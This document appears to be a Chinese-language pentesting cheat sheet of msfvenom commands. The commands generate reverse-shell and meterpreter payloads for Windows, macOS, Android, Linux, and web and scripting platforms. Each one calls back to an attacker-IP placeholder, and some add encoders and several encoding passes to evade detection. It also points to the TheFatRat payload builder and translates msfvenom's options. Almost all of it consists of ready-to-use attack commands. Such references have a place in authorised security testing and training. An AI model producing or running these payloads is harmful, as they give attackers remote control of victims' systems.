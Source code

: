 
### windows:
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp 
LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```
### mac:
```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho
``` 

### android:
```bash
//需要签名
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk
```

### powershell:
```bash
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

### linux:
```bash
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```

### php:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### aspx:
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
### jsp:
```bash
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.jsp
```

### war:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw - o payload.war
```

### nodejs:
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.js
```

### python:
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py
```

### perl:
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.pl
```
### ruby:
```bash
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.rb
```

### lua:
```bash
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.lua
```

### windows shellcode:
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### linux shellcode:
```bash
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### mac shellcode:
```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### 便捷化payload生成：

项目地址：
https://github.com/Screetsec/TheFatRat

```bash
root@John:~/Desktop# git clone https://github.com/Screetsec/TheFatRat.git
//设置时需要挂墙
```  
![](media/492800d0d4d9ed8b762c3494bc845363.jpg)  

![](media/6eeb8e3d9370ca202dd0b45abe2e8756.jpg)  

![](media/a43ce02f6b76b5f01b8697c215bad11d.jpg)  

![](media/58459088b75ecdcc093e435a5a586638.jpg)  


### 附录：

中文使用说明：
```bash
Options:

-p, --payload <payload> 使用指定的payload
--payload-options 列出该payload参数
-l, --list [type] 列出所有的payloads
-n, --nopsled <length> 为payload指定一个 nopsled 长度
-f, --format <format> 指定payload生成格式
--help-formats 查看所有支持格式
-e, --encoder <encoder> 使用编码器
-a, --arch <arch> 指定payload构架
--platform <platform> 指定payload平台
--help-platforms 显示支持的平台
-s, --space <length> 设定payload攻击荷载的最大长度
--encoder-space <length> The maximum size of the encoded payload

(defaults to the -s value)
-b, --bad-chars <list> 指定bad-chars 如: '\x00\xff'
-i, --iterations <count> 指定编码次数
-c, --add-code <path> 指定个win32 shellcode 文件
-x, --template <path> 指定一个 executable 文件作为模板
-k, --keep payload自动分离并注入到新的进程
-o, --out <path> 存放生成的payload
-v, --var-name <name> 指定自定义变量
--smallest Generate the smallest possible payload
-h, --help 显示帮助文件
```
>   Micropoor
